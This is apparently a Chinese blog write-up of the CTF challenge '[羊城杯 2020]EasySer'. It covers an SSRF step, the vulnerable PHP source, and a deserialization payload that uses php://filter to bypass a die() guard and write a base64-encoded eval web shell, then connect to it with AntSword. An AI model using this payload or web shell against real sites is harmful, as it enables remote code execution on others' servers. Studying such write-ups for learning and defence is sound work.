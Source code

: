 <!--yml
category: 未分类
date: 2022-04-26 14:54:01
-->

# BUUCTF-[羊城杯]Easyser_moyuyyds的博客-CSDN博客

> 来源：[https://blog.csdn.net/m0_52358157/article/details/117827372](https://blog.csdn.net/m0_52358157/article/details/117827372)

# BUU：[羊城杯 2020]EasySer

–菜鸟的第一篇ctf题解

![在这里插入图片描述](img/bd663790e78a8dd1d33d4e899b161428.png)一开始拿到题目一面懵，于是常规的查看robots.txt，很幸运提示要你去访问/star1.php
![在这里插入图片描述](img/d9496d7147b466f7d41f9e26b966984a.png)
进入到这个界面![在这里插入图片描述](img/65f6ea88563884f3ecddac2342d2a948.png)接着遇事不决f12得到提示使用一个不安全协议获取ser.php

然后开始了漫长的各种尝试：各种php伪协议，各种百度去搜寻不安全的协议，并没有什么结果。后来想到有一位师傅讲过http相对比于https是不安全的，因为它无状态，无连接，具有简单快速、灵活的特性，通信时候使用明文，也不会对通信方进行确认（重点在这！）
![在这里插入图片描述](img/8e5489685ce4677cdb82126b6664be7a.png)所以可以利用在百度输入框内输入http://127.0.0.1/star1.php来伪造是服务端自己的请求，访问本地获取源码。这个应该算是一个SSRF的一个简单地应用吧。

```
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ 
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;

    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?> 
```

***然后就是漫长的代码审计工作了***

序列化代码如下

```
<?php

class GWHT{
    public $hero;
}
class Yongen{ 
    public $file="php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";
    public $text="PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";
}

$a = new GWHT();
$a->hero=new Yongen();
echo serialize($a);
?> 
```

## 知识点：

*   **string.strip.tags-------从字符串中去除HTML、PHP标签，是一个非常非常重要的函数**
*   **filter协议**

* * *

> php://filter
> 是一种设计用来允许过滤器程序在打开时成为流的封装协议。这对于单独具有完整功能的文件函数非常有用，否则就没有机会在读取内容之前将过滤器应用于流之上。
> 该协议语法为：php://filter:/= 比如 php://filter:/resource=http://www.baidu.com
> 使用 php://filter 获取网页内容：<?php u r l = ′ h t t p : / / w w w . p h p f a m i l y . c n ′ ; url = 'http://www.phpfamily.cn'; url=′http://www.phpfamily.cn′;data =
> file_get_contents(‘php://filter/resource=’ . $url); echo $data;
> //输出结果我http://www.phpfamily.cn页面的内容 php://filter 的 参数列表参数功能read读取
> write写入 resource数据来源 read参数值可为 string.strip_tags： 将数据流中的所有html标签清除
> string.toupper： 将数据流中的内容转换为大写 string.tolower： 将数据流中的内容转换为小写
> convert.base64-encode： 将数据流中的内容转换为base64编码 convert.base64-decode：
> 与上面对应解码为典型的文件包含漏洞。我们可以通过构造含有漏洞的语句，查看想要看的代码：
> file=php://filter/convert.base64-encode/resource=index.php
> 。再将得到的base64码解码即可。***

* * *

**得到反序列之后我踩了一个大坑，那就是不知道序列化是要赋值给哪一个变量。**

后来看了一位师傅的wp才知道用Arjun去爆破得知一个参数为path一个参数为c

Payload如下：

```
path=http://127.0.0.1/star1.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yongen":2:{s:4:"file";s:77:"php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";s:4:"text";s:40:"PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";}} 
```

然后使用蚁剑进行连接就可以找到flag了。
连接路径就是原网址加你写入的文件名。